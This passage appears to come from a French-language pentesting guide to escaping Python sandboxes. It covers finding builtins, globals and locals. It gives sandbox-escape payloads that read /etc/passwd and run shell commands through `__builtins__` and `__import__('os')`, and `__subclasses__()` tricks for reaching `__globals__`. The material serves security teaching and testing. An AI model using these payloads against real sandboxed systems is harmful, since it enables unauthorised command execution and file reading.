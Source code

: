- `locals` : Cette fonction renvoie un dictionnaire contenant les variables locales de la fonction appelante. Elle peut être utilisée pour accéder à des variables qui sont normalement restreintes dans un environnement sandboxé.
```python
# Possible payloads once you have found the builtins
__builtins__["open"]("/etc/passwd").read()
__builtins__["__import__"]("os").system("ls")
# There are lots of other payloads that can be abused to execute commands
# See them below
```
## Globals et locals

Vérifier les **`globals`** et les **`locals`** est une bonne façon de savoir à quoi vous pouvez accéder.
```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}
>>> locals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}

# Obtain globals from a defined function
get_flag.__globals__

# Obtain globals from an object of a class
class_obj.__init__.__globals__

# Obtaining globals directly from loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x) ]
[<class 'function'>]

# Obtaining globals from __init__ of loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x.__init__) ]
```